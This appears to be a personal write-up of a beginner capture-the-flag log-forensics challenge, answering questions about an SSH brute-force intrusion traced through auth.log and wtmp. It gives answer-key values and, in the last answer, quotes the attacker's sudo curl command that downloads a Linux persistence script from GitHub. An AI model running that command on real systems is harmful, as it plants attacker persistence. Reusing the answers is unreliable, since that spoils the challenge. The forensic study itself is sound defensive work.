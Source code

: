 

##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

A: 2024-03-06 06:32:45

In the wtmp file (after utmpdump bc u cant open the file just like that). We search for the root acc and the ip of the attacker and find the answer

![](../../Img/Pasted%20image%2020250425144054.png)

Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

A: 37

This one is in the auth.log file
Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

A: cyberjunkie

Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A: T1136.001

Q7: What time did the attacker's first SSH session end according to auth.log?

A: 2024-03-06 06:37:24

Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
